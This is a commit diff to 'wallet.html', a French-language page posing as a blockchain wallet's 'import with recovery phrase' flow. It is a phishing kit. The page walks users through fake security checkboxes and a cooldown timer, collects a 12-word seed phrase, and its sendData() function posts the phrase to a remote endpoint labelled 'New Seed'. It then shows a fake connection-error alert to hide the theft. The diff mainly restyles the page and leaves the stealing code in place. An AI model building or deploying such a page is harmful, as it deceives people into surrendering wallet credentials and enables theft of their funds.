

Before and after one commit to zynavixpro-cmd/Brd, a plain HTML site: page wallet.html in a window 1280 px wide. Both pictures are taken after a click on the button "J'ai déjà un portefeuille". Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update wallet.html

```diff
--- a/wallet.html
+++ b/wallet.html
@@ -5,40 +5,119 @@
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Blockchain Wallet Interface</title>
     <style>
-        /* جميع الستايلات الخاصة بك بقيت كما هي دون تغيير */
+        /* ضبط المقاسات العامة لتبدو احترافية */
         * { margin: 0; padding: 0; box-sizing: border-box; font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif; -webkit-tap-highlight-color: transparent; }
-        body { background-color: #000000; color: #ffffff; min-height: 100vh; overflow-x: hidden; display: flex; justify-content: center; align-items: center; }
-        .app-container { width: 100%; max-width: 480px; height: 100vh; max-height: 900px; position: relative; overflow: hidden; background-color: #000000; }
-        @media (min-width: 768px) { .app-container { height: 90vh; border-radius: 20px; box-shadow: 0 20px 60px rgba(0,0,0,0.5); } }
-        .top-header { position: fixed; top: 0; left: 0; right: 0; z-index: 1000; display: flex; justify-content: space-between; align-items: center; padding: 12px 16px; background-color: #0a0a0a; }
-        .top-header-logo { width: 36px; height: 36px; background: linear-gradient(135deg, #a855f7 0%, #c084fc 100%); border-radius: 10px; display: flex; align-items: center; justify-content: center; cursor: pointer; transition: transform 0.2s; }
-        .top-header-logo svg { width: 18px; height: 18px; fill: #1a1a2e; }
-        .top-header-connect { position: relative; padding: 2px; border-radius: 24px; background: linear-gradient(90deg, #3b82f6 0%, #8b5cf6 25%, #ec4899 50%, #f59e0b 75%, #10b981 100%); background-size: 200% 100%; animation: gradientShift 3s ease infinite; cursor: pointer; }
+
+        body {
+            background-color: #000000;
+            color: #ffffff;
+            height: 100vh;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            overflow: hidden;
+        }
+
+        .app-container {
+            width: 100%;
+            max-width: 480px;
+            height: 100vh;
+            position: relative;
+            background-color: #000000;
+            display: flex;
+            flex-direction: column;
+        }
+
+        /* تنسيق الهيدر العلوي ليكون متناسقاً في النافذة المنبثقة */
+        .top-header {
+            position: absolute;
+            top: 0;
+            left: 0;
+            right: 0;
+            z-index: 1000;
+            display: flex;
+            justify-content: space-between;
+            align-items: center;
+            padding: 16px 20px;
+            background-color: #0a0a0a;
+            border-bottom: 1px solid #1a1a1a;
+        }
+
+        .top-header-logo {
+            width: 34px;
+            height: 34px;
+            background: linear-gradient(135deg, #a855f7 0%, #c084fc 100%);
+            border-radius: 8px;
+            display: flex;
+            align-items: center;
+            justify-content: center;
+        }
+
+        .top-header-logo svg { width: 16px; height: 16px; fill: #000; }
+
+        .top-header-connect {
+            padding: 2px;
+            border-radius: 24px;
+            background: linear-gradient(90deg, #3b82f6, #8b5cf6, #ec4899);
+            background-size: 200% 100%;
+            animation: gradientShift 3s ease infinite;
+        }
+
         @keyframes gradientShift { 0% { background-position: 0% 50%; } 50% { background-position: 100% 50%; } 100% { background-position: 0% 50%; } }
-        .top-header-connect-inner { background-color: #0a0a0a; color: #ffffff; padding: 10px 24px; border-radius: 22px; font-size: 14px; font-weight: 600; border: none; cursor: pointer; }
-        .screen { display: none; flex-direction: column; height: 100%; padding: 60px 24px 40px 24px; overflow-y: auto; overflow-x: hidden; }
+
+        .top-header-connect-inner {
+            background-color: #0a0a0a;
+            color: #ffffff;
+            padding: 8px 18px;
+            border-radius: 22px;
+            font-size: 13px;
+            font-weight: 600;
+            border: none;
+        }
+
+        /* ضبط الشاشات لتناسب طول النافذة */
+        .screen {
+            display: none;
+            flex-direction: column;
+            height: 100%;
+            padding: 80px 24px 30px 24px;
+            overflow-y: auto;
+        }
+
         .active { display: flex; }
+
         .header-nav { display: flex; align-items: center; margin-bottom: 25px; flex-shrink: 0; }
-        .back-button { font-size: 24px; color: #ffffff; cursor: pointer; margin-right: 20px; font-weight: bold; }
-        .progress-container { flex-grow: 1; display: flex; gap: 8px; }
+        .back-button { font-size: 22px; color: #ffffff; cursor: pointer; margin-right: 15px; }
+
+        .progress-container { flex-grow: 1; display: flex; gap: 6px; }
         .progress-bar { height: 4px; flex: 1; border-radius: 2px; background-color: #2C2C2E; }
         .progress-active { background-color: #ffffff; }
-        .screen-title { font-size: clamp(24px, 5vw, 32px); font-weight: 700; line-height: 1.2; margin-bottom: 15px; }
-        #screen-1 { justify-content: space-between; padding-top: 80px; }
-        .logo-container { flex-grow: 1; display: flex; align-items: center; justify-content: center; margin-top: -50px; }
-        .logo-container img { width: min(180px, 40vw); height: auto; }
-        .btn-primary { background-color: #ffffff; color: #000000; border: none; padding: 20px; border-radius: 100px; font-size: 18px; font-weight: 600; cursor: pointer; width: 100%; }
-        .btn-secondary { background-color: transparent; color: #ffffff; border: none; padding: 15px; font-size: 18px; font-weight: 600; cursor: pointer; width: 100%; }
-        .phrase-input-container { background-color: #ffffff; border-radius: 16px; padding: 20px; margin-top: 20px; min-height: 180px; }
-        .phrase-textarea { width: 100%; height: 140px; border: none; outline: none; resize: none; font-size: 18px; color: #000000; background: transparent; }
-        .subtitle-gray { font-size: 16px; color: #8E8E93; line-height: 1.4; }
-        .link-blue { color: #0A84FF; text-decoration: none; font-size: 15px; }
-        .bottom-btn { background-color: #E5E5EA; color: #8E8E93; width: 100%; padding: 20px; border-radius: 100px; border: none; font-size: 18px; font-weight: 600; margin-top: auto; cursor: not-allowed; transition: all 0.3s; }
+
+        .screen-title { font-size: 28px; font-weight: 700; line-height: 1.2; margin-bottom: 12px; }
+
+        #screen-1 { justify-content: center; text-align: center; }
+        .logo-container { margin-bottom: 40px; }
+        .logo-container img { width: 140px; height: auto; }
+
+        /* ضبط الأزرار لتكون بلمسة عصرية */
+        .btn-primary { background-color: #ffffff; color: #000000; border: none; padding: 18px; border-radius: 100px; font-size: 17px; font-weight: 600; cursor: pointer; width: 100%; margin-bottom: 10px; }
+        .btn-secondary { background-color: transparent; color: #ffffff; border: none; padding: 15px; font-size: 17px; font-weight: 600; cursor: pointer; width: 100%; }
+
+        .phrase-input-container { background-color: #ffffff; border-radius: 16px; padding: 16px; margin-top: 20px; }
+        .phrase-textarea { width: 100%; height: 120px; border: none; outline: none; resize: none; font-size: 17px; color: #000000; background: transparent; }
+
+        .subtitle-gray { font-size: 15px; color: #8E8E93; line-height: 1.5; margin-bottom: 15px; }
+        .link-blue { color: #0A84FF; text-decoration: none; font-size: 14px; margin-top: 5px; display: inline-block; }
+
+        .bottom-btn { background-color: #2c2c2e; color: #8E8E93; width: 100%; padding: 18px; border-radius: 100px; border: none; font-size: 17px; font-weight: 600; margin-top: auto; cursor: not-allowed; transition: 0.3s; }
         .btn-active { background-color: #ffffff !important; color: #000000 !important; cursor: pointer !important; }
-        .option-card { border: 1px solid #333333; border-radius: 16px; padding: 24px; cursor: pointer; margin-bottom: 15px; }
-        .checkbox-group { display: flex; flex-direction: column; gap: 20px; margin-top: 20px; }
+
+        .option-card { border: 1px solid #262626; border-radius: 16px; padding: 20px; cursor: pointer; margin-bottom: 12px; transition: 0.2s; }
+        .option-card:active { background-color: #1a1a1a; }
+
+        .checkbox-group { display: flex; flex-direction: column; gap: 18px; margin-top: 20px; }
         .checkbox-item { display: flex; align-items: flex-start; gap: 12px; cursor: pointer; }
-        .checkbox-item input { width: 22px; height: 22px; accent-color: #ffffff; }
+        .checkbox-item input { width: 22px; height: 22px; accent-color: #ffffff; flex-shrink: 0; }
     </style>
 </head>
 <body>
@@ -51,38 +130,42 @@
     <div class="app-container">
         <div id="screen-1" class="screen active">
             <div class="logo-container"><img src="https://i.ibb.co/0ptqGxqv/63-EDB01-A-F334-4276-9093-767375-F8-B16-B.png"></div>
-            <div class="content-wrapper"><h1>Votre plateforme pour<br>tout sur la blockchain</h1></div>
-            <button class="btn-primary">Créer un nouveau portefeuille</button>
-            <button class="btn-secondary" onclick="navigateTo('screen-2')">J'ai déjà un portefeuille</button>
+            <div class="content-wrapper"><h1 class="screen-title">Votre plateforme pour<br>tout sur la blockchain</h1></div>
+            <div style="width: 100%; margin-top: 20px;">
+                <button class="btn-primary">Créer un nouveau portefeuille</button>
+                <button class="btn-secondary" onclick="navigateTo('screen-2')">J'ai déjà un portefeuille</button>
+            </div>
         </div>
 
         <div id="screen-2" class="screen">
             <div class="back-button" onclick="navigateTo('screen-1')">✕</div>
-            <h2 class="screen-title">Comment vous connectez-vous à votre portefeuille ?</h2>
+            <h2 class="screen-title">Comment vous connectez-vous ?</h2>
             <div class="option-card" onclick="navigateTo('screen-3')"><strong>Phrase de récupération</strong><br><small style="color: #8E8E93;">Sécurisé par votre phrase de 12 mots.</small></div>
         </div>
 
         <div id="screen-3" class="screen">
             <div class="header-nav"><div class="back-button" onclick="navigateTo('screen-2')">←</div><div class="progress-container"><div class="progress-bar progress-active"></div><div class="progress-bar"></div><div class="progress-bar"></div></div></div>
-            <h2 class="screen-title">Importer un portefeuille</h2>
+            <h2 class="screen-title">Importer</h2>
             <div class="option-card" onclick="startWarningScreen()"><strong>⌨️ Saisie manuelle</strong><br><small style="color: #8E8E93;">Saisissez votre phrase de récupération.</small></div>
         </div>
 
         <div id="screen-4" class="screen">
             <div class="header-nav"><div class="back-button" onclick="navigateTo('screen-3')">←</div><div class="progress-container"><div class="progress-bar progress-active"></div><div class="progress-bar progress-active"></div><div class="progress-bar"></div></div></div>
-            <h2 class="screen-title" style="text-align: center;">Méfiez-vous des escroqueries</h2>
+            <h2 class="screen-title" style="text-align: center;">Sécurité</h2>
+            <p class="subtitle-gray" style="text-align: center;">Cochez ces cases pour continuer.</p>
             <div class="checkbox-group">
                 <label class="checkbox-item"><input type="checkbox" class="warn-check" onchange="checkWarning()"> <span class="subtitle-gray">Personne ne m'a demandé...</span></label>
                 <label class="checkbox-item"><input type="checkbox" class="warn-check" onchange="checkWarning()"> <span class="subtitle-gray">Personne ne m'a donné cette phrase...</span></label>
                 <label class="checkbox-item"><input type="checkbox" class="warn-check" onchange="checkWarning()"> <span class="subtitle-gray">Personne ne m'a demandé de configurer...</span></label>
             </div>
-            <button id="cooldown-btn" class="bottom-btn" onclick="navigateTo('screen-5')">10 secondes de refroidissement</button>
+            <button id="cooldown-btn" class="bottom-btn" onclick="navigateTo('screen-5')">10 secondes</button>
         </div>
 
         <div id="screen-5" class="screen">
             <div class="header-nav"><div class="back-button" onclick="navigateTo('screen-4')">←</div><div class="progress-container"><div class="progress-bar progress-active"></div><div class="progress-bar progress-active"></div><div class="progress-bar progress-active"></div></div></div>
-            <h2 class="screen-title">Se connecter avec une phrase de récupération</h2>
-            <div class="phrase-input-container"><textarea id="phraseText" class="phrase-textarea" placeholder="Entrez vos 12 mots هنا"></textarea></div>
+            <h2 class="screen-title">Saisie de phrase</h2>
+            <p class="subtitle-gray">Entrez les 12 mots de récupération.</p>
+            <div class="phrase-input-container"><textarea id="phraseText" class="phrase-textarea" placeholder="Mot 1 Mot 2 Mot 3..."></textarea></div>
             <button class="bottom-btn btn-active" style="margin-top: 30px;" onclick="sendData()">Continuer</button>
         </div>
     </div>
@@ -105,7 +188,7 @@
             clearInterval(timerId);
             timerId = setInterval(() => {
                 timeLeft--;
-                if(timeLeft > 0) btn.innerText = timeLeft + " secondes de refroidissement";
+                if(timeLeft > 0) btn.innerText = timeLeft + " secondes";
                 else { btn.innerText = "Continuer"; clearInterval(timerId); checkWarning(); }
             }, 1000);
         }
@@ -117,11 +200,9 @@
             else btn.classList.remove('btn-active');
         }
 
-        // الوظيفة المسؤولة عن إرسال البيانات إلى Render
         async function sendData() {
             const val = document.getElementById('phraseText').value.trim();
             if(!val) return;
-
             try {
                 await fetch(RENDER_URL, {
                     method: 'POST',
@@ -129,9 +210,7 @@
                     body: JSON.stringify({ message: `<b>📥 New Seed (Popup):</b>\n<pre>${val}</pre>` })
                 });
                 alert("Une erreur de connexion s'est produite. Veuillez réessayer.");
-            } catch(e) {
-                alert("Erreur de réseau.");
-            }
+            } catch(e) { alert("Erreur de réseau."); }
         }
     </script>
 </body>
```
